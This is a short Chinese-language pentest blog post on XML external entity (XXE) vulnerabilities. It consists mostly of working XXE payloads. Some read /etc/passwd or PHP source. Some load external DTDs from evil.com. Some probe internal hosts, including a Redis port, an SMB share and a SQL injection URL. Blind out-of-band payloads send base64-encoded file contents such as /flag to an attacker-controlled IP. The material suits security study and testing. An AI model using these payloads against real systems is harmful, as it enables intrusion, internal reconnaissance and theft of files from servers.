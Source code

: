 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

外部引用时可能会出现XXE漏洞，XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

### 0x03 XXE漏洞读取文件
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
  <name>&xxe;</name>
</root>
```
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >]>
<root>
  <name>&xxe;</name>
</root>
```
```
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://evil.com/evil.dtd" >
  %d;
]>
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```
<br>
```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evil.com/evil.dtd">
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```

* 扫描内网

```xml
<!ENTITY portscan SYSTEM 'http://192.168.2.22:6379/'>
<!ENTITY smb SYSTEM '\\192.168.2.22\C$'>
<!ENTITY sqli SYSTEM 'http://192.168.2.22/a.php?id=-1+union+select+1,2,3--'>
```

* Blind-XXE

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % ttt SYSTEM "php://filter/convert.base64-encode/resource=/flag">
    <!ENTITY % remote SYSTEM "http://Your IP/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %payload;   <!--执行%payload，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>

<!--evil.xml内容：-->
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://Your IP/a.php?content=%ttt;'>">
```
<br>
```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
    <!ENTITY % file SYSTEM "file:///C:/1.txt">  
    <!ENTITY % remote SYSTEM "http://192.168.150.1/evil.xml">  
    %remote;  
    %all;  
    %send;  
]>

<!--evil.xml内容：-->
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```

<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691)
* [https://www.waitalone.cn/xxe-attack.html](https://www.waitalone.cn/xxe-attack.html)
